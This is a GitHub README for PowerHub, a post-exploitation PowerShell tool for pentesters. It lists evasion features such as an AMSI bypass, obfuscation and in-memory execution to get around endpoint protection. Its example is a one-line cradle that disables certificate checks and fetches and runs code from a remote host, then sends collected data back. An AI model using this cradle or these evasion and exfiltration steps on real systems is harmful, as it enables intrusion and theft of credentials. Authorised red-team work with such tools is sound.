


PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs




During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$Nxois='bZeVBC4vZfakT5SmCcaFam6IRY6UNLnC';$Plukgmio=New-Object Net.WebClient;IEX $Plukgmio.DownloadString('https://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView

Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```

Documentation
=============

Read the docs [here](https://adrianvollmer.github.io/PowerHub/).

* **Installation:** <https://adrianvollmer.github.io/PowerHub/latest/installation.html>
* **Usage:** <https://adrianvollmer.github.io/PowerHub/latest/usage.html>
* **Contributing:** <https://adrianvollmer.github.io/PowerHub/latest/contrib.html>
* **Changelog:** <https://adrianvollmer.github.io/PowerHub/latest/changelog.html>


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author and License
==================

Adrian Vollmer, 2018-2023. MIT License.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
